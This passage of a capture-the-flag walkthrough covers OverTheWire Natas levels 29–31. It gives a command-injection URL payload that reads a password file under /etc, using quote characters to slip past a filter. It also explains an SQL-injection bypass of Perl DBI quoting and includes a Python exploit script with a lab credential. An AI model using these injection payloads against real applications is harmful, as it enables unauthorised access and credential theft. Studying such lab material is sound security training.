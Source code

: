 **Procedure**

1. Log in using the username `natas29` and the password from Level 28.

2. Payload that works: `|cat /etc/na%22t%22as_webpass/na%22ta%22s30%0A`

3. URL becomes:

   		http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/na%22t%22as_webpass/na%22ta%22s30%0a

This will get you the password for the next level.

### Natas Level 30 → Level 31
**Key Takeaways**  

* The app builds SQL with `$dbh->quote(param('...'))` which looks safe — but `param()` can return an array when a form field is submitted multiple times.
* `quote()` accepts a second argument that controls quoting behavior; if that second value is an integer the DBD driver may skip normal string quoting.
* Send the `password` field twice so `param('password')` becomes `["<payload>", 4]` (or other integer); the `4` gets passed to `quote()` and causes the quoting to be bypassed.
* Make the first password value an SQL expression that makes authentication succeed, e.g. `"'lol' or 1=1"`, and set `username=natas31` to retrieve natas31's password.
* POST the form with HTTP Basic auth (natas30 creds), parse the response — the page will include the natas31 password when the injection succeeds.
  
**Procedure**

1. Log in using the username `natas30` and the password from Level 29.

2. Sample script (Credits: https://the-dark-lord.medium.com): https://the-dark-lord.medium.com/natas-wargames-16-30-fbde4edd41d4

```
import requests
from requests.auth import HTTPBasicAuth

#identified sample=^$(grep -o ^Wa natas16)I
user='natas30'
passw='WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH'

#clumsy but manageable
payload= {'username': 'natas31', 'password': ["'lol' or 1=1",4]}
answer=requests.post('http://natas30.natas.labs.overthewire.org/index.pl', data=payload,auth=HTTPBasicAuth(user,passw))
str1 = answer.text
print(answer.text)
```
The password for the next level can be found in the content.












